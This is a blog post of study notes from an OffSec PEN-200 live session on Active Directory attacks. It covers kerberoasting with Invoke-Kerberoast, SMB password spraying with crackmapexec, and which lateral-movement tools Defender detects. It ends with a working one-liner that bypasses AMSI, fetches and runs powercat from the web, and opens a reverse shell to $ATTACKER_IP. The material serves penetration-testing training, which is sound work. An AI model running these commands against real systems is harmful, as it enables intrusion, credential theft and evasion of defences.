 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-08-26 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-26-offsec-live-pen-200.html
author: 100007
---
```


# Active Directory Enumeration & Exploitation, Part 2

`Get-DomainUsers -SPN` will list AD service accounts using `PowerView.ps1`.

In AD, the domain controller will grant a service ticket for _any_ service to _any_ user. Access is enforced by the _service_ machine.

Since AD tickets are encrypted using account password hashes - so if weak passwords are chosen for service accounts, tickets can be cracked to retrieve service account passwords.

There is an `Invoke-Kerberos.ps1` PowerShell module out there that does native kerberoasting from PowerShell. Output can be passed to Hashcat, among others. Be sure to set the `-Width` parameter (vixx recommends 8000) when using `Out-File` with this module, or this function won’t output the entire ticket!

```
Invoke-Kerberoast -OutputFormat Hashcat |
	Select-Object Hash |
	Out-File -filepath "$FILE_PATH" -Width 8000
```

SSH port forwarding is actually using SOCKS5 under the hood. This is important to know when setting up tools like `proxychains`.

There’s a tool called `crackmapexec` that allows cracked passwords to be sprayed across an AD environment (available in the Kali repos). Since SMB shares are both common and often contain interesting files, this is a good service to try to gain (indiscriminate) access to. (Note that you _shouldn’t_ use password spraying to try to crack user passwords, as doing so will likely lead to account lockouts and subsequent alarms. Instead, use spraying to determine user access.)

```
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD 2> /dev/null
```

Microsoft Defender now detects ImPacket PSEXEC and SMBEXEC execution attempts.

The SCShell fileless lateral movement tool is generally _not_ detected by Microsoft Defender (at least as of this course). It does require RPC to be available on the target, though this is common in AD environments.

Powercat is a reimplementation of netcat in PowerShell. Helpful!

A one-liner to bypass AMSI and fire up a PowerShell reverse shell using Powercat:

```
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

- [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
- [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
- [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [Using PowerShell](https://cardboard-iguana.com/notes/powershell.html)
- [EmpireProject / Empire / module\_source / credentials / Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
- [Kerberos](https://cardboard-iguana.com/notes/kerberos.html)
- [Using Hashcat](https://cardboard-iguana.com/notes/hashcat.html)
- [Mr-Un1k0d3r / SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
- [besimorhino / powercat](https://github.com/besimorhino/powercat)
